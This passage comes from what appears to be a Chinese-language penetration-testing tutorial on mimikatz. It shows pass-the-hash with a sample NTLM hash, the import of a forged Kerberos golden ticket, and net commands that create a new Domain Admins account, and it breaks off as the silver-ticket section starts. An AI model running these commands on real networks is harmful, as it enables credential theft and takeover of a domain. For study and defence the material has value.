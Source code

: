 ```plain
mimikatz # privilege::debug
mimikatz # sekurlsa::pth /user:test /domain:test.com /ntlm:c5a237b7e9d5f708d8436b2584a25fa1
```

然后可以利用 mimikatz 弹出的 cmd 窗口执行操作

### [kerberos 模块 —— 黄金白银票据](#toc_kerberos_1)

#### [黄金票据](#toc__4)

登录域内普通用户，通过 mimikatz 中的 kerberos::ptt 功能将 golden.kirbi 导入内存中

```plain
mimikatz # kerberos::purge   //清空以前的票据
mimikatz # kerberos::list  //列出票据为空证明已经清空
mimikatz # kerberos::ptt golden.kirbi
```

[![image-20220517194011869.png](assets/1698894253-500e0546d07213f8ab2649997e8e49e7.png)](https://storage.tttang.com/media/attachment/2022/06/17/697a808f-438c-437c-8b87-b437653f68e1.png)

然后尝试创建一个 ccc 的域管账号 命令执行成功

```plain
# net user ccc Qwe123...  /add /domain
# net group "domain admins"  ccc /add /domain
```

[![image-20220517194148042.png](assets/1698894253-81ae87b3e56ee3dc0a45cb2d8ed2b4a8.png)](https://storage.tttang.com/media/attachment/2022/06/17/e5350f64-c0f5-4aa4-928e-6fcc43a0866c.png)

#### [白银票据](#toc__5)

登录域管用户，用管理员权限打开 cmd cd 到 mimikatz 的目录

执行 mimikatz 命令 得到 SID 和 NTLM
